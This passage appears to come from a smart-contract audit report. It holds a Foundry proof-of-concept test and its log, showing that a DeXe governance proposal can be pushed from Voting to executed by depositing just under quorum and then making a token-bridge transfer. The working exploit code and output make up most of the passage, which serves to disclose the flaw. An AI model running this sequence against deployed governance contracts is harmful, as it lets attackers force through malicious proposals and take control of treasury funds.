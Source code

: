 ```solidity
        proposal = proposals[0].proposal;
        console.log("requiredQuorum : ", requiredQuorum);
        console.log("totalVotes     : ", proposal.core.votesFor + proposal.core.votesAgainst);

        uint256 depositAmount = requiredQuorum - proposal.core.votesFor - proposal.core.votesAgainst - 1;
        dexeToken.approve(address(userKeeper), depositAmount);
        govPool.deposit(depositAmount, nftIds);

        bytes[] memory _data = new bytes[](1);
        _data[0] = abi.encodeWithSelector(IGovPool.vote.selector, proposalId, true, depositAmount, nftIds);
        govPool.multicall(_data);

        proposalState = govPool.getProposalState(proposalId);
        console.log("- State is Voting ?", IGovPool.ProposalState.Voting == proposalState);

        dexeToken.approve(address(tokenBridge), type(uint256).max);
        tokenBridge.transferTokens(address(dexeToken), ONE_TOKEN, 2, bytes32(uint256(uint160(userA))), 0, 1717906953);

        proposalState = govPool.getProposalState(proposalId);
        console.log("- State is Voting ?", IGovPool.ProposalState.Voting == proposalState);

        console.log("- State is SucceededFor ?", IGovPool.ProposalState.SucceededFor == proposalState);

        govPool.execute(proposalId);
        proposalState = govPool.getProposalState(proposalId);
        console.log("- State is ExecutedFor ?", IGovPool.ProposalState.ExecutedFor == proposalState);

        vm.stopPrank();
    }
}

```

LOG:
```
proposalId:  15
  - State is Voting ? true
  requiredQuorum :  1164689849374014000000000
  totalVotes     :  15751685969099791348550
  - State is Voting ? true
  - State is Voting ? false
  - State is SucceededFor ? true
  - State is ExecutedFor ? true
```

This means that malicious suggestions are immediately viable.
